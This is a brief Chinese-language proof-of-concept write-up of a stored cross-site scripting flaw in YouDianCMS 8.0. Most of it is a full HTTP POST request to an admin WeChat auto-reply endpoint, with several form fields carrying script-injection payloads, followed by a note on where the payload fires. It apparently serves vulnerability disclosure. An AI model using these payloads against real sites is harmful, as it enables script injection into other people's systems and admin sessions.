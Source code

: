 YouDianCMS 8.0 Storeage XSS
===========================

一、漏洞简介
------------

二、漏洞影响
------------

YouDianCMS 8.0

三、复现过程
------------

    POST /index.php/Admin/wx/saveSubscribeReply 
    HTTP/1.1 Host: 127.0.0.1 
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0 
    Accept: application/json, text/javascript, /; q=0.01 
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2 
    Referer: http://0-sec.org/index.php/Admin/Wx/subscribereply/l/en/random/1560696407129 
    X-Requested-With: XMLHttpRequest 
    Content-Type: multipart/form-data; 
    boundary=---------------------------17443203555821 
    Content-Length: 2207 
    DNT: 1 
    Connection: close 
    Cookie: PHPSESSID=bkv171om25ji6a51t7dql010h2; youdianAdminLangSet=en; CKFinder_Path=Files%3A%2F%3A1; CKFinder_Settings=TNNDS; youdianMenuTopID=15

    -----------------------------17443203555821 Content-Disposition: form-data; name="ReplyID"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="TypeID"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="a1"

    "><scRIPT>alert(1)</SCRIPT> -----------------------------17443203555821 Content-Disposition: form-data; name="a2"

    2 -----------------------------17443203555821 Content-Disposition: form-data; name="a3"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="a4"

    "><scRIPT>alert(1)</SCRIPT> -----------------------------17443203555821 Content-Disposition: form-data; name="a5"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="a6"

    -----------------------------17443203555821 Content-Disposition: form-data; name="musicfile"

    -----------------------------17443203555821 Content-Disposition: form-data; name="a11"

    -----------------------------17443203555821 Content-Disposition: form-data; name="a12"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="a13"

    -----------------------------17443203555821 Content-Disposition: form-data; name="a14"

    -----------------------------17443203555821 Content-Disposition: form-data; name="a15"

    "><scRIPT>alert(1)</SCRIPT> -----------------------------17443203555821 Content-Disposition: form-data; name="a16"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="a7"

    2 -----------------------------17443203555821 Content-Disposition: form-data; name="a8"

    2,大转盘 -----------------------------17443203555821 Content-Disposition: form-data; name="a10"

    -----------------------------17443203555821 Content-Disposition: form-data; name="a9"

    "><scRIPT>alert(1)</SCRIPT> -----------------------------17443203555821 Content-Disposition: form-data; name="IsEnable"

    1 -----------------------------17443203555821 Content-Disposition: form-data; name="hash"

    19b37a0a1054dfd209b9a17c704027f3_db90bddc24f4e98592b355e2cbbca612 -----------------------------17443203555821--

该漏洞触发的位置在"微信平台"-"自动回复"-"跟踪自动回复"的"微信短信"中，最后点击保存触发。

四、参考链接
------------

> <https://github.com/ReboOt68/youdiancms8.0-StoreageXSS-POC/issues/2>
